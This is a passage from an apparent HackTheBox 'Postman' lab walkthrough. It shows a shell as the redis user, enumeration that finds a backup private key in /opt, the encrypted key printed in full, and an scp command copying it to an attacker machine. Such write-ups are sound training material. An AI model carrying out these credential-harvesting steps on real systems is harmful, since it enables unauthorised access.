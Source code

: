  * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Last login: Mon Aug 26 03:04:25 2019 from 10.10.10.1
redis@Postman:~$ id
uid=107(redis) gid=114(redis) groups=114(redis)
redis@Postman:~$ 
{% endhighlight %}

With some enumeration, we can find an interesting file "id_rsa.bak" in the "/opt" directory.
{% highlight shell %}
redis@Postman:~$ ls /opt/
id_rsa.bak

redis@Postman:~$ cat /opt/id_rsa.bak 
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
UH7OfQz03VWy+K0aa8Qs+Eyw6X3wbWnue03ng/sLJnJ729zb3kuym8r+hU+9v6VY
Sj+QnjVTYjDfnT22jJBUHTV2yrKeAz6CXdFT+xIhxEAiv0m1ZkkyQkWpUiCzyuYK
t+MStwWtSt0VJ4U1Na2G3xGPjmrkmjwXvudKC0YN/OBoPPOTaBVD9i6fsoZ6pwnS
5Mi8BzrBhdO0wHaDcTYPc3B00CwqAV5MXmkAk2zKL0W2tdVYksKwxKCwGmWlpdke
P2JGlp9LWEerMfolbjTSOU5mDePfMQ3fwCO6MPBiqzrrFcPNJr7/McQECb5sf+O6
jKE3Jfn0UVE2QVdVK3oEL6DyaBf/W2d/3T7q10Ud7K+4Kd36gxMBf33Ea6+qx3Ge
SbJIhksw5TKhd505AiUH2Tn89qNGecVJEbjKeJ/vFZC5YIsQ+9sl89TmJHL74Y3i
l3YXDEsQjhZHxX5X/RU02D+AF07p3BSRjhD30cjj0uuWkKowpoo0Y0eblgmd7o2X
0VIWrskPK4I7IH5gbkrxVGb/9g/W2ua1C3Nncv3MNcf0nlI117BS/QwNtuTozG8p
S9k3li+rYr6f3ma/ULsUnKiZls8SpU+RsaosLGKZ6p2oIe8oRSmlOCsY0ICq7eRR
hkuzUuH9z/mBo2tQWh8qvToCSEjg8yNO9z8+LdoN1wQWMPaVwRBjIyxCPHFTJ3u+
Zxy0tIPwjCZvxUfYn/K4FVHavvA+b9lopnUCEAERpwIv8+tYofwGVpLVC0DrN58V
XTfB2X9sL1oB3hO4mJF0Z3yJ2KZEdYwHGuqNTFagN0gBcyNI2wsxZNzIK26vPrOD
b6Bc9UdiWCZqMKUx4aMTLhG5ROjgQGytWf/q7MGrO3cF25k1PEWNyZMqY4WYsZXi
WhQFHkFOINwVEOtHakZ/ToYaUQNtRT6pZyHgvjT0mTo0t3jUERsppj1pwbggCGmh
KTkmhK+MTaoy89Cg0Xw2J18Dm0o78p6UNrkSue1CsWjEfEIF3NAMEU2o+Ngq92Hm
npAFRetvwQ7xukk0rbb6mvF8gSqLQg7WpbZFytgS05TpPZPM0h8tRE8YRdJheWrQ
VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W
X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
-----END RSA PRIVATE KEY-----
redis@Postman:~$ 
{% endhighlight %}

Try to download with scp.
{% highlight shell %}
root@kali:~# scp redis@10.10.10.160:/opt/id_rsa.bak /root
id_rsa.bak                                                        100% 1743    38.3KB/s   00:00    
root@kali:~# 
{% endhighlight %}
